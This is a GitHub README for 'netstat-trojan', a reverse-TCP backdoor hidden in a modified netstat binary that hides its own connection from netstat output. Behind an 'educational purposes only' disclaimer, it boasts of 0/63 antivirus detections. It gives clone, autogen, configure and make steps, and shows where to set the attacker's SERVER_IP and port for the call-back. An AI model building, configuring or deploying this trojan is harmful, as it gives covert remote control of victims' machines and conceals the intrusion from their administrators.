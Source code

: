 ```
            /********************************************************************\
           *                           DISCLAIMER:                            *
           *                                                                  *
           *  This program is for educational purposes only. Usage signifies  *
           *  understanding of risks. Usage on unauthorized systems is        *
           *  prohibited.                                                     *
           *                                                                  *
           *  - Use only with proper authorization. Unauthorized use is       *
           *    strictly prohibited.                                          *
           *                                                                  *
           *  - The creator assumes no liability for damages or legal         *
           *    consequences caused by this program.                          *
           *                                                                  *
           *  - Ensure compliance with applicable laws and regulations.       *
           *                                                                  *
           *  Use responsibly, ethically, and respect others' privacy and     *
           *  security.                                                       *
          \********************************************************************/
```
# Code Review
[![Guide](https://i3.ytimg.com/vi/69EJHqwGi1U/maxresdefault.jpg)](https://www.youtube.com/watch?v=69EJHqwGi1U)

# netstat-trojan
**netstat-trojan** is a reverse-TCP backdoor disguised within the netstat utility. It's designed to automatically exclude itself from the netstat output. 

[VIRUS TOTAL RESULTS](https://www.virustotal.com/gui/file/7b2d7a27e5907cc3210ab57aa1dc376c0555acb96da29288ca700408e68dbc3d/detection) 0/63

## Setup

1. Clone the repository:
   ```bash
   git clone https://github.com/Drew-Alleman/netstat-trojan/
   ```
2. Navigate to the cloned directory:
   ```bash
   cd netstat-trojan/
   ```
3. Initialize the configuration scripts:
   ```bash
   ./autogen.sh
   ```
4. Run the configuration:
   ```bash
   ./configure
   ```

## Configuration Process
To configure the Netstat-Trojan to suit your specific needs, you will need to modify the `netstat.c` file:

1. Open `netstat.c` in your preferred text editor. For example, using `vim`:
   ```bash
   drew@ubuntu-desktop:~/Projects/netstat-trojan$ vim src/netstat.c
   ```
2. Locate and modify the following settings:

   - **Port Configuration**: Define the port to host the backdoor.
     ```c
     #define PORT 44566
     ```
   - **Server IP Configuration**: Set the attacking IP address or the server address that the backdoor will connect to.
     ```c
     #define SERVER_IP "192.168.0.87"
     ```

Ensure that you replace `PORT` and `SERVER_IP` with the values that align with your desired configuration.

## Building
Once all the steps above are complete simply run `make` and the `netstat` binary will appear here: `/netstat-trojan/src/`
